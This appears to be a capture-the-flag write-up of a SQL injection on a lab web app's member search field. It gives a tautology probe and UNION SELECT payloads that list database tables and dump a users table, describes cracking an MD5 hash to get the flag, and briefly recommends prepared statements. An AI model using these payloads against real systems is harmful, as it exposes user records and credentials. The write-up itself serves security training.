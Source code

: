 # 06-SQL_Member_Search

The search filed is vulnerable to sql injections

# The approach

1.Go to http://192.168.101.204/index.php?
2.On the search field, type `1 or 1=1` and press search button 

# The Exploit #
- Type this union command on the filed: 1 union select null, concat (table_name) from information_schema.tables where table_schema = database (). this returns table name which is users.

- type on the filed: -1 union select NULL, concat (user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users. this returns a list names and surnames by ID.

- from the results you get ( " 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28 " decrypt code using MD5 decrypt, then run sha256 on lowercased password: flag is result )

## The solution
- Use prepared statements in the backend to prevent to prevent users from making queries with user input
- validate user inputs from back end before proceeding.

### Resources

https://www.md5online.org/md5-decrypt.html  
sha256-hash-generator/ 
